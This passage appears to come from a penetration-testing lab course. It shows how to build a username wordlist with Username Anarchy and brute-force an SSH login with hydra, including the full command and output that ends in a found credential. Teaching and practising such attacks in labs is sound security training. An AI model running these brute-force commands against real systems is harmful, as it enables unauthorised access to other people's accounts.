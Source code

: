 One such tool we can use is [Username Anarchy](https://github.com/urbanadventurer/username-anarchy), which we can clone from GitHub, as follows:

```shell
git clone https://github.com/urbanadventurer/username-anarchy.git

Cloning into 'username-anarchy'...
remote: Enumerating objects: 386, done.
remote: Total 386 (delta 0), reused 0 (delta 0), pack-reused 386
Receiving objects: 100% (386/386), 16.76 MiB | 5.38 MiB/s, done.
Resolving deltas: 100% (127/127), done.

```

This tool has many use cases that we can take advantage of to create advanced lists of potential usernames. However, for our simple use case, we can simply run it and provide the first/last names as arguments, and forward the output into a file, as follows:

```bash
./username-anarchy Bill Gates > bill.txt

```

We should finally have our username and passwords wordlists ready and we could attack the SSH server.


# Service Authentication Brute Forcing

* * *

## SSH Attack

The command used to attack a login service is fairly straightforward. We simply have to provide the username/password wordlists, and add `service://SERVER_IP:PORT` at the end. As usual, we will add the `-u -f` flags. Finally, when we run the command for the first time, `hydra` will suggest that we add the `-t 4` flag for a max number of parallel attempts, as many `SSH` limit the number of parallel connections and drop other connections, resulting in many of our attempts being dropped. Our final command should be as follows:

```shell
hydra -L bill.txt -P william.txt -u -f ssh://178.35.49.134:22 -t 4

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 157116 login tries (l:12/p:13093), ~39279 tries per task
[DATA] attacking ssh://178.35.49.134:22/
[STATUS] 77.00 tries/min, 77 tries in 00:01h, 157039 to do in 33:60h, 4 active
[PORT][ssh] host: 178.35.49.134   login: b.gates   password: ...SNIP...
[STATUS] attack finished for 178.35.49.134 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra)

```
